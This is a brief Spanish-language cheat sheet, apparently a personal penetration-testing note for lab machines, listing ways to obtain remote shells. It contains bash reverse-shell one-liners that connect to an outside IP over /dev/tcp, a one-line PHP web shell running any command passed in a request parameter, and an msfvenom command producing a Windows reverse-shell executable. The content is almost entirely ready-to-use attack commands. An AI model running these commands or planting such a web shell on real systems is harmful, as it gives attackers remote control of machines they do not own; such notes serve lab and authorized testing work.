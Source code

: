 # RCE - Reverse Shell

Aquí iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes maneras de crear shells en linux.

La manera mas directa de crear una reverse shell en Linux es:

```
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
```

Aunque a veces es mejor indicárselo como parámetro:

```
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
```

## PHP

Ejecución de comandos

```
  <?php system($_REQUEST["cmd"]); ?>
```

## MSFVENOM

### Fichero EXE

```
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
```
